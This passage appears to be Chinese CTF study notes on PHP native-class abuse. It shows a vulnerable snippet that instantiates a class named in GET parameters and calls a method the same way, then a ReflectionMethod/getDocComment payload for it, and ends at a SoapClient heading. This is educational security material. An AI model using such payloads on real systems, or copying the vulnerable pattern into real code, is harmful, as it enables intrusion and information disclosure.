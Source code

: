 ```php
$rb=$_GET["rb"];
$ra=$_GET["ra"];
$rd=$_GET["rd"];
$method= new $rc($ra, $rb);
var_dump($method->$rd());
```

这里rc是传入原生类名，rb和ra都是传入类的属性，rd时传入类方法，后面就是实例化并且调用该方法。

payload：

```php
?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment
```

<img src="图片\t01be9035739587a99b.png" alt="img" style="zoom:80%;" />



## Y4tacker文章

[Y4tacker文章](https://blog.csdn.net/solitudi/article/details/113588692?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167550748316800225587282%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=167550748316800225587282&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-113588692-null-null.blog_rank_default&utm_term=%E5%8F%8D%E5%BA%8F%E5%88%97&spm=1018.2226.3001.4450)

### SoapClient介绍

 综述：
